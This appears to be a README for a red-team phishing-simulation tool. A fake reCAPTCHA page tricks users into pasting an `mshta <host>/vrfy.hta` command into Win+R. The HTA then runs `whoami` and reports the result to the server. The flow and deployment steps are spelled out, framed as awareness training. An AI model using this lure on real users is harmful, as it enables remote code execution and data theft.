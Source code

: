 # CAPTCHA Phishing Simulation - Technical Overview

This project simulates a CAPTCHA verification process for controlled phishing/security awareness training exercises. It mimics a familiar Google reCAPTCHA interface and walks the user through a short client-side action, allowing backend confirmation that the user followed instructions and executed a local payload.

<img width="270" alt="image" src="https://github.com/user-attachments/assets/a336559b-cdd9-4067-8b28-61bde53e6370" />

## Components

### 1. `index.html`

A stylised web page that imitates Google reCAPTCHA.

* When the user clicks the "I'm not a robot" checkbox, a pseudo-verification process starts.
* The user is prompted to press Windows + R, paste a copied command (`mshta`), and hit Enter.
* This command opens an `.hta` file with embedded JScript.
* A polling mechanism checks with the server every 2 seconds to see if the `.hta` file has successfully reported in.&#x20;
* The final redirect URL (triggered once verification is confirmed) can be modified in `index.html` as required for your campaign scenario.

### 2. `vrfy.hta`

Executed via `mshta`, this file:

* Extracts the `vid` (verification ID) from the query string.
* Runs `whoami` locally via ActiveX (`WScript.Shell`).
* Sends the username and verification code to the server via an HTTP GET request (to `router.php`).

> ⚠️ This `.hta` file is a proof-of-concept. It can be modified to perform arbitrary code execution, such as launching beacons, downloading payloads, or installing malware. The author provides this code strictly for educational and authorised red team purposes and is **not responsible** for any misuse.

### 3. `verify.php`

Polled continuously by the CAPTCHA page. It checks:

* Whether a file named `verifications/{vid}.txt` exists.
* If found, returns HTTP 200 OK (triggering the green "Verification Complete" status and unlocking the button).

### 4. `router.php`

Handles the incoming GET request from `vrfy.hta`:

* Validates the presence of `vid` and `user` in the request.
* Writes the `vid` and associated user string to `verifications/{vid}.txt`.
* Returns HTTP 200 OK on success.

## Flow Summary

1. User opens `index.html`.
2. User clicks checkbox → JavaScript generates a `vid`, copies `mshta <host>/vrfy.hta?vid=<vid>` to clipboard.
3. User runs it → `.hta` executes `whoami`, submits it to `router.php`.
4. `router.php` saves output to `verifications/<vid>.txt`.
5. `verify.php` is polled → returns 200 OK once that file exists.
6. Button becomes clickable → simulated verification complete.

## Use Cases

* Security awareness training
* Social engineering simulation
* Red team exercises

## Important Notes

* The system does not perform any malicious action by default. It only reads `whoami` and confirms the user ran the `.hta`.
* The `.hta` script can be extended to perform malicious behaviour if misused — the author **disclaims all liability** for such use.
* Ensure users are informed this is a controlled, authorised simulation.
* Hosting this publicly or obfuscating intent may breach acceptable use policies.

## Deployment

* Place all files on a web server with PHP support.
* Ensure the `verifications/` directory is writable by the web server.
* Test locally before deployment to ensure clipboard copy, HTA execution, and polling all work as expected.

## Legal Warning

This tool is intended strictly for use in **authorised environments** for testing or awareness. Use against unsuspecting or unauthorised users is unethical and may be illegal.
